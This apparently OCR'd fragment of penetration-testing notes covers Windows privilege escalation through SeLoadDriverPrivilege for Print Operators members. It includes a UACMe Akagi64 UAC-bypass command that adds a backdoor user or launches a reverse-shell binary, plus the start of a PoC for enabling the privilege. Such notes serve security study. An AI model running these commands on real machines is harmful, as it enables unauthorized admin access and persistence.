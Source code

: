     whoami /priv
    # if we do not see SeLoadDriverPrivilege, we need to bypass UAC

    # we can use UACMe repo - https://github.com/hfiref0x/UACME - for bypassing UAC
    # 'Akagi64.exe' has multiple methods - we can use those
    # for example, to add new user - 'Akagi64.exe 61 "net user test pa55w0rd /add"'
    # or for revshell - 'Akagi64.exe 61 "C:\Tools\service.exe"'

    # alternatively, if we have GUI access, we can open an admin cmd shell
    # and input creds of member of Print Operators group

    # now we should have SeLoadDriverPrivilege listed but disabled
    whoami /priv

    # to enable SeLoadDriverPrivilege
    # we need to use this PoC script - https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp
    # but with a few libaries included at top
    ```

    ```c
    #include <windows.h>
    #include <assert.h>
    #include <winternl.h>
    #include <sddl.h>
    #include <stdio.h>
    #include "tchar.h"
    // these include statements should be present in PoC script
    // for enabling SeLoadDriverPrivilege
